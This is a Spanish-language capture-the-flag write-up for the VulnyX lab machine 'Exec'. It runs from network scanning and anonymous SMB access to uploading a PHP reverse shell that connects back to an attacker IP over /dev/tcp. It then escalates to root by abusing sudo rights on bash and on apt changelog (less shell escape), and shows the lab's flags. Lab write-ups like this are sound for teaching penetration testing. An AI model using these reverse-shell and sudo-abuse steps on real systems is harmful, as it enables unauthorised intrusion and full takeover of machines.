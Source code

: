 
### WRITEUP - VULNYX - EXEC ##
<!--
## Scanning Network ##
netdiscover -r 10.0.2.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                    
                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                 
 10.0.2.3        08:00:27:8f:22:b9      1      60  PCS Systemtechnik GmbH                                         
 10.0.2.7        08:00:27:15:3c:0d      1      60  PCS Systemtechnik GmbH 


first nmap
nmap services
	$ smb(smbd 4.6.2), http (apache 2.4.57 misma CVE que en Hacking station), ssh, netbios
## Enumeration ##
nmap netbios
	$ nmap -p139,445 --script nbstat 10.0.2.7
smb client
	$ smbclient -L //10.0.2.7 -U "" -N > enumeration/smbclient_list
Probamos a conectarnos a algúno de los shares con contraseña en blanco. Lo conseguimos en el share server
	$ smbclient //10.0.2.7/server -U ""
	Password for [WORKGROUP\]:
	Try "help" to get a list of possible commands.
	smb: \> 
Podemos listar el directorio y vemos un index.html. Tiene pinta que aquí es donde se hostea el servicio web 
	smb: \> ls
	  .                                   D        0  Mon Apr 15 04:45:54 2024
	  ..                                  D        0  Mon Apr 15 04:04:12 2024
	  index.html                          N    10701  Mon Apr 15 04:04:31 2024

	                19480400 blocks of size 1024. 16499224 blocks available
Esto lo tendremos en cuenta para poder introducir una reverse shell
Procedemos a enumerar smb con enum4linux -r 10.0.2.7 mientras miramos el servicio web
En el servicio web nos encontramos la págia por defecto de un servicio apache, por lo que poco podemos hacer.
~~Imagen servicio web~~
Mientras revisamos el enum4linux, podemos ir tirando un dirbuster y recoger posibles rutas adicionales en el servicio
web
	$ dirb http://10.0.2.7:80
Nada interesante en el dirbuster
pero en el enum4linux, obtenemos un usuario llamado s3cur4.

### Weaponization/Gaining access ###
Ya que tenemos un acceso por un share, vamos a probar a copiarnos una reverse shell en php por ejemplo y probar a ejecutarla
Vamos a montarnos una particion para poder realizar las acciones necesarias de forma más sencilla
	$ mkdir /mnt/Exec
	$ mount -t cifs -o user="" -o password="" //10.0.2.7/server /mnt/Exec
Creamos el script, lo copiamos y nos ponemos a la escucha:
	$ cp reverse_shell.php /mnt/Exec
	<?php exec("bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'");?>
	$ nc -nlvp 443
Una vez hecho esto vamos a ver si se carga en el servidor y ejecuta nuestro script php
~~Imagen reverse shell~~
Tenemos acceso al servidor. Ahora vamos a tratar la shell:
~~Copiar de otros md el tratamiento de shell~~
### Privilege escalation ###
Vemos que somos www-data y que no tenemos permisos aparentes
	www-data@exec:/var/www/html$ whoami
	www-data
	www-data@exec:/var/www/html$ id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
Por el enum4linux lanzado anteriormente, sabemos que existe un usuario local llamado s3cur4 pero no tenemos acceso
a su home para obtener la flag:
	www-data@exec:/var/www/html$ ls -la /home/s3cur4/
	ls: cannot open directory '/home/s3cur4/': Permission denied
Viendo si tenemos permisos con sudo, podemos ver que tenemos acceso a una bash siendo s3cur4:
	www-data@exec:/var/www/html$ sudo -l
		Matching Defaults entries for www-data on exec:
    			env_reset, mail_badpass,
    			secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    			use_pty

		User www-data may run the following commands on exec:
    			(s3cur4) NOPASSWD: /usr/bin/bash
Podemos abusar de este permiso con www-data y que nos devuelva una bash:
	sudo -u s3cur4 /bin/bash
Obtenemos una shell como s3cur4
	www-data@exec:/var/www/html$ sudo -u s3cur4 /bin/bash
	s3cur4@exec:/var/www/html$ whoami
	s3cur4
Una vez dentro como el usuario, buscamos y obtenemos la flag:
	s3cur4@exec:/var/www/html$ ls -la /home/s3cur4/
	total 28
	drwx------ 3 s3cur4 s3cur4 4096 Apr 15 10:56 .
	drwxr-xr-x 3 root   root   4096 Apr 15 09:56 ..
	lrwxrwxrwx 1 root   root      9 Apr 15 10:53 .bash_history -> /dev/null
	-rw-r--r-- 1 s3cur4 s3cur4  220 Nov 15 10:23 .bash_logout
	-rw-r--r-- 1 s3cur4 s3cur4 3526 Nov 15 10:23 .bashrc
	drwxr-xr-x 3 s3cur4 s3cur4 4096 Apr 15 10:17 .local
	-rw-r--r-- 1 s3cur4 s3cur4  807 Nov 15 10:23 .profile
	-r-------- 1 s3cur4 s3cur4   33 Apr 15 10:56 user.txt
	s3cur4@exec:/var/www/html$ cat /home/s3cur4/user.txt 
	45e398cc820ab08df0e3a414eac58fef
Ahora, procederemos a escalar a root.
Identificamos los permisos del usuario sobre sudo.
s3cur4@exec:/var/www/html$ sudo -l
	Matching Defaults entries for s3cur4 on exec:
    	env_reset, mail_badpass,
    	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    	use_pty

	User s3cur4 may run the following commands on exec:
    		(root) NOPASSWD: /usr/bin/apt
Observamos que tenemos permisos para ejecutar un binario llamado : */usr/bin/apt*. Analizamos el comportamiento de
este binario
	s3cur4@exec:/var/www/html$ sudo /usr/bin/apt
	apt 2.6.1 (amd64)
	Usage: apt [options] command

	apt is a commandline package manager and provides commands for
	searching and managing as well as querying information about packages.
	It provides the same functionality as the specialized APT tools,
	like apt-get and apt-cache, but enables options more suitable for
	interactive use by default.

	Most used commands:
	  list - list packages based on package names
	  search - search in package descriptions
	  show - show package details
	  install - install packages
	  reinstall - reinstall packages
	  remove - remove packages
	  autoremove - automatically remove all unused packages
	  update - update list of available packages
	  upgrade - upgrade the system by installing/upgrading packages
	  full-upgrade - upgrade the system by removing/installing/upgrading packages
	  edit-sources - edit the source information file
	  satisfy - satisfy dependency strings

	See apt(8) for more information about the available commands.
	Configuration options and syntax is detailed in apt.conf(5).
	Information about how to configure sources can be found in sources.list(5).
	Package and version choices can be expressed via apt_preferences(5).
	Security details are available in apt-secure(8).
	                                        This APT has Super Cow Powers.
Buscamos alguna forma de vulnerar el sistema con este comando. Dentro de GTFOBins, tenemos una entrada de *apt*
~~Captura apt entrada~~
Y observamos que podemos obtener una shell como root siguiendo los siguientes pasos:
~~Captura sudo~~
Vamos a probar a utilizar el bypass por el changelog (como less) para obtener una shell como root. Para esto, usamos
el comando indicado y luego, dentro de la visualización con less, podemos escribir y ejecutar *!/bin/bash*

De esta forma obtenemos el acceso como root
	s3cur4@exec:/var/www/html$ sudo apt changelog apt
	Get:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
	Fetched 505 kB in 0s (1601 kB/s)
	root@exec:/var/www/html# whoami
	root
Una vez ya con acceso a root, tenemos control total de la máquina. Obtenemos el flag de root:
	root@exec:/var/www/html# ls -la /root/
	total 32
	drwx------  4 root root 4096 Apr 21 20:45 .
	drwxr-xr-x 18 root root 4096 Apr 15 09:48 ..
	lrwxrwxrwx  1 root root    9 Apr 15 10:53 .bash_history -> /dev/null
	-rw-r--r--  1 root root 3526 Apr 15 10:05 .bashrc
	-rw-------  1 root root   38 Apr 21 20:45 .lesshst
	drwxr-xr-x  3 root root 4096 Apr 15 09:57 .local
	-rw-r--r--  1 root root  161 Jul  9  2019 .profile
	drwx------  2 root root 4096 Apr 15 11:21 .ssh
	-r--------  1 root root   33 Apr 15 10:54 root.txt
	root@exec:/var/www/html# cat /root/root.txt 
	97d8adddb3a3aa8b63e28c2396c5e53f
-->
